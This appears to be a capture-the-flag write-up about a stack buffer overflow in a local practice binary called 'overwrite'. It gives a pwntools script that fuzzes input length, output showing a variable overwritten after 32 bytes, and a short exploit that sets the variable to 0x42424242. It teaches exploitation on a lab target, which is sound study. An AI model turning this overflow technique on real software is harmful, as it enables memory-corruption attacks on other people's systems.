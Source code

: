 ```python
from pwn import *


for length in range(100):
	print("---- LENGTH %d" % length)
	io = process('./overwrite')
	payload = length * b'A'
	print(payload)
	io.sendlineafter(b'?', payload)
	print(io.recvall().decode())
```
```
---- LENGTH 31
[+] Starting local process './overwrite': pid 15721
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[+] Receiving all data: Done (14B)
[*] Process './overwrite' stopped with exit code 0 (pid 15721)
 12345678
...

---- LENGTH 32
[+] Starting local process './overwrite': pid 15724
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[+] Receiving all data: Done (14B)
[*] Process './overwrite' stopped with exit code 0 (pid 15724)
 12345600
...

---- LENGTH 33
[+] Starting local process './overwrite': pid 15727
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[+] Receiving all data: Done (14B)
[*] Process './overwrite' stopped with exit code 0 (pid 15727)
 12340041
...
```

As you can see after 32 dummy bytes the output variable has been modified.

To confirm we can create a exploit to control de variable.

```python
from pwn import *
io = process('./overwrite')
payload = 32 * b'A' + b'BBBB'
io.sendlineafter(b'?', payload)
print(io.recvall().decode())
```
Output:

```
$ python3 myexploit.py
[+] Starting local process './overwrite': pid 20032
[+] Receiving all data: Done (14B)
[*] Process './overwrite' stopped with exit code 0 (pid 20032)
 42424242
...
```
